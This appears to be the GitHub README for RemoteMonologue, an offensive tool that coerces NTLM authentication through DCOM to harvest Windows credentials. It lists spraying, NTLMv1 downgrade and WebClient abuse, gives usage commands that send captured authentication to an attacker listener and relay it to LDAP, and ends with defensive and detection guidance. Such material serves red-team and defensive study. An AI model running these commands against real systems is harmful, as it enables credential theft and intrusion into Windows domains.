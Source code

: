 # RemoteMonologue

RemoteMonologue is a Windows credential harvesting technique that enables remote user compromise by leveraging the Interactive User RunAs key and coercing NTLM authentications via DCOM. Read [RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions] for detailed information.

## **Features**  

🔹 **Authentication Coercion via DCOM (`-dcom`)**  
- Targets three DCOM objects (`ServerDataCollectorSet`, `FileSystemImage`, `UpdateSession`) to trigger NTLM authentication against a specified listener (`-auth-to`).  

🔹 **Credential Spraying (`-spray`)**  
- Validate credentials across multiple systems while also capturing user credentials.  

🔹 **NetNTLMv1 Downgrade Attack (`-downgrade`)**  
- Force targets to use NTLMv1, making credential cracking and relaying easier.  

🔹 **WebClient Service Abuse (`-webclient`)**  
- Enables the WebClient service to facilitate HTTP-based authentication coercion.  

🔹 **User Enumeration (`-query`)**  
- Identify users with an active session on the target system.  

**Note:** Local administrator access to the target system is required.  

## **Setup**

```bash
pip install impacket
```

## **Examples**

Below is an example of running RemoteMonologue with the NetNTLMv1 downgrade attack while using `Responder` as the listener. By default, if no DCOM option is specified, the tool uses the `ServerDataCollectorSet` DCOM object.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener IP] -downgrade
```

![image](https://github.com/user-attachments/assets/ada8f741-754f-4c50-9743-a6d9145f7407)


Below is another example, this time the attack is executed using the `FileSystemImage` DCOM object and enabling the WebClient service to obtain an HTTP authentication, which is then relayed to LDAP using `ntlmrelayx`.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener NETBIOS@PORT] -webclient -dcom FileSystemImage
```

![image](https://github.com/user-attachments/assets/f79d879a-ac4b-4436-a453-359d6e2eba72)


## **Defensive Considerations**

To protect against and detect these techniques, there are several preventative and detection measures that can be implemented.

Preventative measures:

1.	Enable LDAP Signing and Channel Binding: Configure LDAP signing enforcement and channel binding on domain controllers to protect the LDAP endpoint from relay attacks. Note: These settings will be enforced by default starting with Windows Server 2025.

2.	Upgrade to the Latest Windows Versions: Upgrade servers to Windows Server 2025 and workstations to Windows 11 version 24H2 to mitigate NetNTLM downgrade attacks, as NTLMv1 has been removed in these versions.

3.	Enforce SMB Signing: Enable and enforce SMB signing on Windows servers to prevent SMB relay attacks.

4.	Implement Strong Password Policies: Enforce strong password requirements to make password cracking attacks more challenging.

Detection opportunities:

1.	Monitor Remote Access to DCOM Objects: Track access to the affected DCOM objects and their specific Properties and Methods to identify unusual activity.

2.	Monitor Registry Modifications: Monitor changes to the RunAs and LmCompatibilityLevel registry keys.

3.	Track WebClient Service Activity: Monitor for instances where the WebClient service is enabled remotely, as this is used to facilitate HTTP-based NTLM authentications.



[RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions]: https://www.ibm.com
